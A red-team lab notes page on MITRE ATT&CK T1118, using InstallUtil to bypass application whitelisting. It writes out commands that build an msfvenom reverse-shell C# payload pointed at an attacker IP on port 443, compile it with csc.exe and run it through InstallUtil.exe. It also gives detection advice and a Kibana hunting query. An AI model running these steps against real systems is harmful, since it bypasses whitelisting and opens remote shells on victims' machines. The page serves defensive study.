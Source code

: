 ```yaml
---
description: InstallUtil code execution - bypass application whitelisting.
---
```


# T1118: InstallUtil

## Execution

First of, let's generate a C\# payload \(with [InstallUtil script](https://github.com/khr0x40sh/WhiteListEvasion)\) that contains shellcode from msfvenom and upload the temp.cs file to victim's machine:

{% tabs %}
{% tab title="attacker@local" %}
```csharp
python InstallUtil.py --cs_file temp.cs --exe_file temp.exe --payload windowsreverse_shell_tcp --lhost 10.0.0.5 --lport 443
```
{% endtab %}
{% endtabs %}

Compile the .cs to an .exe:

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
PS C:\Windows\Microsoft.NET\Framework\v4.0.30319> .\csc.exe C:\experiments\installUtil\temp.cs
```
{% endtab %}
{% endtabs %}

Execute the payload:

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
PS C:\Windows\Microsoft.NET\Framework\v4.0.30319> .\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Windows\Microsoft.NET\Framework\v4.0.30319\temp.exe
Microsoft (R) .NET Framework Installation utility Version 4.0.30319.17929
Copyright (C) Microsoft Corporation.  All rights reserved.

Hello From Uninstall...I carry out the real work...
```
{% endtab %}
{% endtabs %}

Enjoy the sweet reverse shell:

![](../../.gitbook/assets/installutil-shell.png)

## Observations

Look for `InstallUtil` processes that have established connections, especially those with cmd or powershell processes running as children - you should treat them as suspicious and investigate the endpoint closer:

![](../../.gitbook/assets/installutil-procexp.png)

A very primitive query in kibana allowing to find events where InstallUtil spawns cmd:

{% tabs %}
{% tab title="kibana" %}
```text
event_data.ParentCommandLine:"*installutil.exe*" && event_data.Image:cmd.exe
```
{% endtab %}
{% endtabs %}

![InstallUtil launching the malicious payload](../../.gitbook/assets/installutil-kibana.png)

![csc.exe created a temp.exe which contains the reverse shell payload](../../.gitbook/assets/installutils-csc.png)

What is interesting is that I could not see an established network connection logged in sysmon logs, although I could see other network connections from the victim machine being logged.

{% hint style="danger" %}
Will be coming back to this one for further inspection - possibly related to sysmon configuration.
{% endhint %}

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1118" %}

{% embed url="https://github.com/khr0x40sh/WhiteListEvasion" %}

